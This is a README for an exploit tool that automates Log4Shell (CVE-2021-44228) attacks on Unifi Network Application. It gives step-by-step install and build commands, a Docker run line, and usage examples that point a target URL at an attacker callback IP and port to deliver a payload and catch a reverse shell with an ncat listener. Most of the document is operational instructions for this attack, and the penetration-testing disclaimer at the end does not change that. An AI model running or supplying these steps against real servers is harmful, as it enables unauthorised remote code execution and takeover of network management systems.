 # 参考文章

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi



# Log4jUnifi
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

* [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && pip3 install -r requirements.txt
```

From the root of the Log4jUnifi repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && docker build -t Log4jUnifi .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 Log4jUnifi \ 
    -u https://unifi.acme.com:8443 -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -u URL -i CALLBACK -p PORT

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Unifi Network Manager base URL
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -u https://unifi.acme.com:8443 -i 10.10.10.1 -p 4444
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.
